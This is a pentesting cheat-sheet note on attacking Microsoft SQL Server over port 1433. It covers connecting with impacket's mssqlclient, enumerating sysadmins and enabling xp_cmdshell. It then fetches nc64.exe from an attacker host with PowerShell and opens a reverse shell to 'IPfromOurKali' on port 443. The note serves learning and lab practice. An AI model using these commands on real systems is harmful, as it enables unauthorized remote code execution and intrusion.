 ```yaml
---
title: 1433 msSQL
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - mssql
  - port 1433
  - impacket
---
```


# 1433 msSQL

## Connect to a remote Microsoft SQL database

For that, we can use a package such as [impacket](impacket.md) and, specifically, the module mssqlclient.py module that you can find in the folder examples:

```bash
python3 mssqlclient.py username:password@targetIP -windows-auth
# With python3 mssqlclient.py help you can see more options.
```

## Basic commands

```
# Get Microsoft SQL server version
select @@version;

# Get usernames
select user_name();

# Get databases
SELECT name FROM master.dbo.sysdatabases;

# Get current database
SELECT DB_NAME();

# Get a list of users in the domain
SELECT name FROM master..syslogins

# Get a list of users that are sysadmins
 SELECT name FROM master..syslogins WHERE sysadmin = 1;

# And to make sure: 
SELECT is_srvrolemember(‘sysadmin’); 
# If your user is admin, it will return 1.
```

## Executing cmd shell in a SQL command line

Our goal can be to spawn a Windows command shell and pass in a string for execution. For that Microsoft SQL syntaxis has the command **xp_cmdshell**, that will allow us to use the SQL command line as a CLI. 

Because malicious users sometimes attempt to elevate their privileges by using xp_cmdshell, xp_cmdshell is disabled by default. But we can use sp_configure or Policy Based Management to enable it. 

**sp_configure** displays or changes global configuration settings for the current settings. This is how you may take advantage of it:

```msSQL
# To allow advanced options to be changed.   
EXECUTE sp_configure 'show advanced options', 1;  
  
# To update the currently configured value for advanced options.  
RECONFIGURE;  

# To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;  
  
# To update the currently configured value for this feature.  
RECONFIGURE;  
```

Now we can use the msSQL terminal to execute commands:

```msSQL
# This will return the .exe files existing in the current directory
EXEC xp_cmdshell 'dir *.exe';

# To print a file
EXECUTE xp_cmdshell 'type c:\Users\sql_svc\Desktop\user.txt

# With this (and a "python3 -m http.server 80" from our kali serving a file) we can upload a file to the attacked machine, for instance a reverse shell like nc64.exe
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe";

# We could also bind this cmd.exe through the nc to our listener. For that open a different tab in kali and do a "nc -lnvp 443". When launching the reverse shell, we'll get a powershell terminal in this tab by running:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe IPfromOurKali 443";
# You could also upload winPEAS and run it from this powershell command line
```


## Sources and resources

+ [Impacket](impacket.md): mssqlclient.py.  
+ [Pentesmonkey Cheat sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet).
+ [book.hacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).
+ [winPEAS](winpeas.md).



